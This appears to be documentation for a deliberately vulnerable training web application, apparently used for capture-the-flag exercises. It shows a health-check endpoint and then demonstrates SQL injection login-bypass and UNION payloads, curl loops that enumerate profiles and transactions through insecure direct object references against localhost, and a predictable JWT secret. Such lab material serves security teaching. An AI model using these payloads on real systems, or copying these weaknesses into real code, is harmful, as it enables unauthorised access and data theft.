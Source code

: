 #### GET /health
Application health check endpoint.

**Response:**
```json
{
  "status": "healthy",
  "timestamp": "2025-01-07T06:19:55.564787",
  "database": "connected",
  "version": "1.0.0"
}
```

## Security Vulnerabilities Demonstration

### 1. SQL Injection

**Location**: `/login` endpoint  
**Type**: Union-based SQL injection  
**Impact**: Authentication bypass, data exfiltration

**Exploitation Examples:**
```sql
-- Authentication bypass
Username: admin' OR '1'='1' --
Password: anything

-- Data extraction (flag retrieval)
Username: admin' UNION SELECT 1,2,3,flag_value,5,6,7,8 FROM system_flags--
Password: anything
```

### 2. Insecure Direct Object Reference (IDOR)

**Endpoints**:
- `/profile/<user_id>` - Access any user's profile
- `/account/<account_number>/transactions` - Access any account's transactions

**Exploitation:**
```bash
# Enumerate user profiles
for i in {1050..1060}; do
  curl -s "http://localhost:5000/profile/$i" | jq -r '.username // empty'
done

# Access account transactions
curl "http://localhost:5000/account/ADM001/transactions"
```

### 3. JWT Authentication Vulnerabilities

**Weakness**: Predictable secret key (`weak_secret_key_2024`)  
**Impact**: Token forgery, session hijacking
